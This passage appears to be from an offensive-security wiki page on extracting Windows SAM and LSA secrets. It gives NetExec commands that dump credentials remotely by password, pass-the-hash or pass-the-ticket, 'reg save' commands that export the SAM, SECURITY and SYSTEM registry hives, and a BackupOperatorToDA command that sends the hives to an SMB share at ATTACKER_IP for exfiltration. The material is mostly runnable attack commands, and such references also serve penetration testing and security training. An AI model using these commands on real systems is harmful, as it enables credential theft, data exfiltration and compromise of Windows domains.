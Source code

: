 ### NetExec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
netexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
netexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}

{% tab title="Live Windows" %}
### REG

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

{% hint style="success" %}
Exported hives can be exfiltrated and dumped localy using secretsdump or mimikatz.
{% endhint %}

### BackupOperatorToDA

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

{% hint style="info" %}
Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](ntds.md) like demonstrated for an NTDS export.
{% endhint %}
